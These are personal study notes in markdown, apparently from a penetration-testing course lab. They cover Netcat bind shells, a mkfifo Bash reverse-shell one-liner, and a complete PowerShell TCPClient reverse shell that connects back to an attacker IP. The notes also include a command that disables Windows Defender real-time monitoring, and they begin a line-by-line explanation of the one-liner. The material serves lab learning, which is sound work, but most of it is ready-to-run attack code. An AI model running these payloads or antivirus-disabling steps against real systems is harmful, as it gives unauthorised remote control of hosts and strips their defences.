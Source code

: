# Bind Shells
A listener would need to have been started on the target
`nc` can be considered our swiss-army knife. 

```bash
# Listening w. netcat (from target)
nc -lvnp 7777

# Attack box
nc -nv <IP> 7777
```

### Establishing a basic BIND shell wihh Netcat
```bash
# From target
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

# From our machine
zirap98@htb[/htb]$ nc -nv 10.129.41.200 7777
```

# Reverse Shells
```bash
# On attack machine
sudo nc -lvnp 443

# On our windows target
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# We might get blocket by AntiVirus so to disable:
Set-MpPreference -DisableRealtimeMonitoring $true

# Now that it is disabled, let's go again
sudo nc -lvnp 443
```

# Introduction to payloads
### Netcat/Bash Reverse Shell One-liner
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f

# The commands above make up a common one-liner issued on a Linux system to serve a Bash shell on a network socket utilizing a Netcat listener. We used this earlier in the Bind Shells section. It's often copied & pasted but not often understood. Let's break down each portion of the one-liner:

rm -f /tmp/f; 
# Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. The semi-colon (;) is used to execute the command sequentially.
```